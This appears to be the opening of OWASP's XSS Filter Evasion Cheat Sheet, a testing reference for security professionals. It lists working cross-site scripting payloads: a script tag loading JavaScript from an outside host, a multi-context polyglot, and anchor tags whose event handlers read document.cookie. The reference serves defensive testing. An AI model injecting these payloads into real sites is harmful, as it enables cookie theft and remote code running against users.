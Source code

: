 # XSS Filter Evasion Cheat Sheet

## Introduction

This article is a guide to Cross Site Scripting (XSS) testing for application security professionals. This cheat sheet was originally based on RSnake's seminal XSS Cheat Sheet previously at: `http://ha.ckers.org/xss.html`. Now, the OWASP Cheat Sheet Series provides users with an updated and maintained version of the document. The very first OWASP Cheat Sheet, [Cross Site Scripting Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html), was inspired by RSnake's work and we thank RSnake for the inspiration!

## Tests

This cheat sheet demonstrates that input filtering is an incomplete defense for XSS by supplying testers with a series of XSS attacks that can bypass certain XSS defensive filters.

### Basic XSS Test Without Filter Evasion

This attack, which uses normal XSS JavaScript injection, serves as a baseline for the cheat sheet (the quotes are not required in any modern browser so they are omitted here):

```html
<SCRIPT SRC=https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js></SCRIPT>
```

### XSS Locator (Polyglot)

This test delivers a 'polyglot test XSS payload' that executes in multiple contexts, including HTML, script strings, JavaScript, and URLs:

```js
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>
```

(Based on this [tweet](https://twitter.com/garethheyes/status/997466212190781445) by [Gareth Heyes](https://twitter.com/garethheyes)).

### Malformed A Tags

This test skips the [href](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/a#href) attribute to demonstrate an XSS attack using event handlers:

```js
\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>
```

Chrome automatically inserts missing quotes for you. If you encounter issues, try omitting them and Chrome will correctly place the missing quotes in URLs or scripts for you:

```js
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
```
